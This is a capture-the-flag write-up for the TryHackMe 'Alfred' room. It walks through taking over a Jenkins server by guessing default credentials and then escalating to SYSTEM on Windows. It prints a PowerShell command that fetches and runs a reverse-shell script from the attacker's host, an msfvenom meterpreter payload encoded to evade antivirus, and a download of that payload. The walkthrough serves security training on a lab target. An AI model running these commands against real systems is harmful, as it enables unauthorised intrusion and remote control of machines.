# Alfred (THM)

- https://tryhackme.com/room/alfred
- March 17, 2023
- easy

---

- Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.
- For this room, I followed the steps that was instructed

## Enumeration

### Nmap

```
PORT     STATE SERVICE        REASON  VERSION
80/tcp   open  http           syn-ack Microsoft IIS httpd 7.5
3389/tcp open  ms-wbt-server? syn-ack
8080/tcp open  http           syn-ack Jetty 9.4.z-SNAPSHOT
```

### HTTP/80

- Home Page



- alfred@wayneenterprises.com
- directory brute forcing with ffuf -> nothing found

### HTTP/8080

- directory brute forcing with ffuf -> nothing found
- login page



- if login page is found, try with something like this

```
admin:admin
admin:password
guest:guest
guest:password
user:user
user:password
```
- one of them is correct and redirect to dashboard



- Found a way to run a shell command in jenkins







- First we need to create a server to share `Invoke-PowerShellTcp.ps1` file to remote machine
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
- Then listen with nc at local machine
- Add payload that the remote machine will fetch ps1 file from local machine and execute and will connect to local machine 

- create local server



- listen with nc at port 4242
- write payload at `http://10.10.144.110:8080/job/project/configure`

```sh
powershell iex (New-Object Net.WebClient).DownloadString('http://$YOUR_TUN_IP:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $YOUR_TUN_IP -Port 4242
```

## User Access

- Click the Apply button
- Build Now and get the shell



- get `alfred\bruce` access

### switch to meterpreter shell

- first create windows meterpreter reverse shell 
- payload is encoded to transmit correctly and to evade anti-virus
- make sure this shell.exe file is under python sharing folder in local machine 

```sh
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=$YOUR_TUN_IP LPORT=4243 -f exe -o shell.exe
```
- in remote shell that we got previously, get the shell.exe file 

```sh
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.8.57:8888/shell.exe', 'shell.exe')"
```






- from meterpreter shell -> run `shell` 




## System Access







```sh
meterpreter > pwd
C:\Windows\system32
meterpreter > cat config/root.txt
```

---